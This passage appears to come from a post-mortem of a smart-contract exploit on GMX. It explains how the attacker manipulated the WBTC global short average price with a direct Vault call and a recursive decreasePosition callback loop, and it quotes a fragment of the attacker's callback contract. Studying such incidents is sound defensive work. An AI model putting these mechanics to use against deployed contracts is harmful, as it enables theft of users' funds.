 Here, it transfers USDC to the `Vault` and invokes `VAULT.increasePosition` while leverage was still enabled. This allowed the attacker to create positions with manipulated leverage, bypassing the `PositionRouter` and `PositionManager` contracts. This direct call was key in manipulating the `wbtcGlobalShortAveragePrice` without undergoing the proper calculation and update mechanisms. After that, the `receive()` function would create a new `decreasePosition` order, setting the callback target back to the malicious contract itself.

The exploit then transitioned into a recursive loop. The `UPDATER` periodically invoked the `setPricesWithBitsAndExecute` function in the `FastPriceFeed` contract, which, as part of its operation, executed pending `decreasePosition` orders, including those newly created by the malicious contract.

```solidity
function setPricesWithBitsAndExecute(
    uint256 _priceBits,
    uint256 _timestamp,
    uint256 _endIndexForIncreasePositions,
    uint256 _endIndexForDecreasePositions,
    uint256 _maxIncreasePositions,
    uint256 _maxDecreasePositions
) external onlyUpdater {
    _setPricesWithBits(_priceBits, _timestamp);

    //...

    _positionRouter.executeIncreasePositions(_endIndexForIncreasePositions, payable(msg.sender));
    _positionRouter.executeDecreasePositions(_endIndexForDecreasePositions, payable(msg.sender));
}
```

Upon the execution of `executeDecreasePosition` in the `PositionRouter` contract by the `UPDATER`, the `_callRequestCallback` function was called and the callback was directed back to the malicious contract:

```solidity
function executeDecreasePosition(bytes32 _key, address payable _executionFeeReceiver) public nonReentrant returns (bool) {
    //...

    _callRequestCallback(request.callbackTarget, _key, true, false);

    return true;
}
```

This callback, in turn, generated yet another `decreaseOrder`, perpetuating a cycle.

```solidity
function gmxPositionCallback(bytes32 positionKey, bool isExecuted, bool isIncrease) external{
    require(msg.sender == address(POSITION_ROUTER), "Unauthorized callback");

    ORDER_BOOK.createDecreaseOrder{value: 3000000000000000}(
        address(WETH),
        53106400000000000000000000000000,
        address(WETH),
        26517133600000000000000000000000,
        true,
        1500000000000000000000000000000000,
        true
    );
}
```
